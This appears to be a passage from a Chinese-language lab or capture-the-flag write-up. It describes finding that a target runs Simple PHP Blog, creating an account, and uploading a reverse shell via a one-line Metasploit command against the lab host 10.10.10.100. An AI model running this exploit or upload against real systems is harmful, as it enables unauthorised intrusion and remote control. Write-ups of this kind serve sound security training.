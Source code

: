 [![](assets/1703831504-9f5fc155befaed5091a948de937a2b03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164023-93a10a02-a493-1.png)

### <5>Simple PHP 源码收集、漏洞利用（MSF）

1.  此外`/blog`网页源码可以发现站点源码地址为`[sourceforge.net/projects/sphpblog/](https://sourceforge.net/projects/sphpblog/)`，可以使用 msf 进行利用
2.  创建了一个新用户名密码 `D7fAjm:LB0oXg`，可登录`/blog`上传反弹 shell 到`/images`
    
    ```plain
    msfconsole -q -x 'use exploit/unix/webapp/sphpblog_file_upload;set rhost 10.10.10.100;set uri /blog;run'
    ```
    

[![](assets/1703831504-b1a689ed5c1ada9530bead1e01002135.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164033-9931c2b8-a493-1.png)
